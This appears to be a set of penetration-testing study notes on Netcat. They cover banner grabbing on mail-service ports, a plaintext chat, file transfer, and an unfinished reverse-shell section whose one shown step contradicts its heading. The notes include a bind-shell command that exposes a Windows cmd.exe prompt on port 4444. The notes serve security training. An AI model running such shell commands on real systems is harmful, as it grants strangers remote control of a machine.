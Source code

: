 # Essential Tools
## Netcat
### Banner Grabbing
#### Connect to port to interact with services
`nc -nv $IP $PORT`

* Check banner for application and version

##### SMTP:
`nc -nv <windows IP> 25`

##### POP3:
`nc -nv <windows IP> 110`

##### IMAP:
`nc -nv <windows IP> 143`

#### Netcat chat

On listening host:`nc -nlvp $PORT`

On connecting host:`nc -nv $IP $PORT`

Type some words, you will see it on listening host
* sent in plaintext

#### Transfer text/binary files
On listening host:`nc -nlvp $PORT > incoming.exe`

On connecting host:`nc -nv $IP $PORT < /PATH/TO/FILE`

* No feedback about file upload process
* To test, check file is working/complete

### Executing Remote Commands/Output redirection
#### Bind shell
* $Bob - Windows 
* $Alice - Kali - NATed IP

Bob: `nc -lvp 4444 -e cmd.exe`
* presents command prompt to whoever connects
* cmd shell is bound to port 4444

Alice: `nc -vn $BOB 4444`
* connects to Bob
* Presented with windows command prompt.

#### Reverse shell
* Needs Bob to connect to Alice

Bob:`nc -lvp 4444`
